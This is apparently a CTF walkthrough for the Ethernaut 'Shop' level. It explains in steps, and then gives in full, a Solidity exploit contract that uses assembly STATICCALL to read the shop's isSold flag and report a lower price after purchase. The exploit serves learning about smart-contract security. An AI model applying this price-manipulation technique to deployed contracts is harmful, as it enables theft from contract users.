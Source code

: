 # Shop

**HINT:** Look back at the Elevator challenge and take a look at gas usage in the [Yellow Paper](https://ethereum.github.io/yellowpaper/paper.pdf) page 26. Another website that will help is the [EVM Opcodes.](https://ethervm.io/) 

<details>
<summary>Step 1</summary>
<p>

We first need to change the state variable ```isSold()``` from false to true. to do so we use STATICCALL within assemby <br></br>
The parameters are:
* gas
* addr
    * We use SLOAD to load the storage at slot 0
* argsOffset
    * The data of ```isSold()``` is needed, and needs to go into MSTORE
    * In the console us: 

    ```js 
    web.utils.soliditySha3('isSold()').substr(0,10) 
    //giving you:
    "0xe852e741"
    ```  
    * Since MSTORE stores 32 bytes we have to subtract the 4 bytes from ```isSold()```
    ```0x120 - 0x4 = 0x11c```
* argslength
    * ```0xe852e741``` is 4 bytes or 0x4
* retOffset
* retLength
</p>
</details>

<details>
<summary>Step 2</summary>
<p>
From there we need to check if isSold() is now 0 and then set a new price 0. Like so:

```
        if iszero(mload(0x120)) {
           mstore(0x150, 0x64)
           return(0x150, 0x20) 
        }
        mstore(0x150, 0x0)
        return(0x150, 0x20) 
    }
```

</p>
</details>

<details>
<summary>Step 3</summary>
<p>

This is the final contract just deploy with your instance address and click call.
```
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price.gas(3300)() >= price && !isSold) {
      isSold = true;
      price = _buyer.price.gas(3300)();
    }
  }
}

contract BuyerSolve {
    
    Shop public shop;
    
    constructor(address shopAddr) public {
        shop = Shop(shopAddr);
    }
    
    function price() external returns (uint) {
    assembly {
        mstore(0x100, 0xe852e741)
        mstore(0x120, 0x0)
        let result := staticcall(gas(), sload(0x0), 0x11c, 0x4, 0x120, 0x20)
        if iszero(mload(0x120)) {
           mstore(0x150, 0x64)
           return(0x150, 0x20) 
        }
        mstore(0x150, 0x0)
        return(0x150, 0x20) 
    }
}
    
    function call() public {
        shop.buy();
    }
}
```

</p>
</details>